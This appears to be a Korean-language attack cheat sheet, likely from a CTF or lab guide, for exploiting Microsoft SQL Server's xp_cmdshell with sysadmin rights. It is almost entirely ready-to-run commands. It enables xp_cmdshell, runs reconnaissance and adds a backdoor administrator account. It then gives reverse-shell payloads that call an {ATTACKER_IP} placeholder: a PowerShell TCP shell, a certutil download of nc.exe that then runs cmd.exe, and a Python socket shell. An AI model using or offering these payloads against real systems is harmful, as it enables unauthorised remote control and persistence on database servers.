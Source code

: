 ### 🖥️ xp_cmdshell 활용 (sysadmin 권한)

```bash
# xp_cmdshell 상태 확인
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

# 시스템 명령 실행
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'ipconfig';
EXEC xp_cmdshell 'net user';
EXEC xp_cmdshell 'dir C:\';

# 사용자 추가 (관리자 권한)
EXEC xp_cmdshell 'net user hacker Password123! /add';
EXEC xp_cmdshell 'net localgroup administrators hacker /add';

# 파일 시스템 탐색
EXEC xp_cmdshell 'dir C:\Users\';
EXEC xp_cmdshell 'type C:\Users\Administrator\Desktop\flag.txt';

# 네트워크 정보
EXEC xp_cmdshell 'ipconfig /all';
EXEC xp_cmdshell 'netstat -an';
EXEC xp_cmdshell 'arp -a';
```

### 🐚 리버스쉘 획득

```bash
# PowerShell 리버스쉘
EXEC xp_cmdshell 'powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient(\"{ATTACKER_IP}\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"';

# nc.exe 업로드 후 실행 (파일 업로드 가능한 경우)
EXEC xp_cmdshell 'certutil -urlcache -split -f http://{ATTACKER_IP}/nc.exe C:\temp\nc.exe';
EXEC xp_cmdshell 'C:\temp\nc.exe -e cmd.exe {ATTACKER_IP} 4444';

# Python 리버스쉘 (Python 설치된 경우)
EXEC xp_cmdshell 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ATTACKER_IP}\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"';
```
